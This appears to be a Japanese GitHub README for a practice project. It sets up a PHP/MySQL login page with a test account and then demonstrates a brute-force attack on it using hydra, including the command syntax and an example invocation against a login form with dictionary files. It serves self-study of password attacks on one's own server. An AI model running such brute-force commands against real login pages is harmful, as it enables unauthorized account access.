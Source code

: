 # 使用するもの

- php 7.4以上
- mysql
- サーバーはご自由に


# 環境構築

## 専用のデータベースを作成する

ご自身のmysqlで好きな名前のデータベースを作成してください。
この例では、 brute_forceとします

```sql
CREATE DATABASE brute_force;
USE brute_force;
```


## テーブルを作成しデータをいれる

データベースに入って、SQL文でテーブルを作成します。

- ユーザーテーブルを作成

```sql
CREATE TABLE users (id INT(11) AUTO_INCREMENT PRIMARY KEY, email VARCHAR(191),password VARCHAR(191)) engine=innodb default charset=utf8;
```

- ユーザーテーブルにデータをいれる

※パスワードは「password」のハッシュにしている

```sql
INSERT INTO users(email,password) VALUES('test@test.com','$2y$10$UrkWlgzm4TrIFiYEZA9KVeHE3MKlP.uumWK6rxgQ7Q006g0MWTzfi');
```

## ライブラリをインストールする
データベースの情報をソースに直書きするわけにはいかないので、 機密情報をenvファイルにいれています。
そのためのライブラリをインストールします。

```bash
composer install
```

## envファイルを作成する
ルートディレクトリ（index.phpと同じ階層）に「.env」という名前のファイルを作成してください
中身はご自身のデータベース情報をいれてください。

```bash
DB_HOST=localhost
DB_NAME=brute_force
DB_USERNAME=root
DB_PASSWORD=
```

## サーバーを立ち上げてローカル環境で確認する

僕の場合はphpのビルトインサーバーを使用するので下記のコマンドでいけます。
※xamppなど自分が普段使っているものがあればそちらをご使用ください。

```bash
php -S 127.0.0.1:3000
```

これの場合は `http://127.0.0.1:3000` にアクセスして、ログインページが映ればOKです！


【ログイン情報】
メールアドレス: test@test.com
パスワード： password


# hydraでブルートフォース攻撃を行う

macの場合homebrewでインストールできます

```bash
brew install hydra
```

hydraはこのような構文でコマンドを打ちます

```bash
hydra -L {ユーザーIDの辞書ファイルへのパス} -P {パスワードの辞書ファイルへのパス}} {ドメインもしくはIPアドレス} http-post-form '{パス}:{ログインフォームのログインIDのname}=^USER^&{ログインフォームのパスワードのname}=^PASS^:{ログイン失敗時のメッセージ}'
```

なので実際はこのようになります

```bash
hydra -L files/id -P files/password example.com http-post-form '/login.php:email=^USER^&password=^PASS^:メールアドレスもしくはパスワードが異なります'
```

成功した場合は成功したログインIDとパスワードが表示されます。

<img width="1440" alt="スクリーンショット 2021-08-15 17 36 01" src="https://user-images.githubusercontent.com/36908016/129472541-57a3bb1e-ff53-4be3-8dcf-3686aba78391.png">



ちなみにポートは80番を想定しているようなのでローカルでは試せなさそうです。
何かのサーバーにアップしてからお試しください。
僕の場合はngrokを使用して試しています。
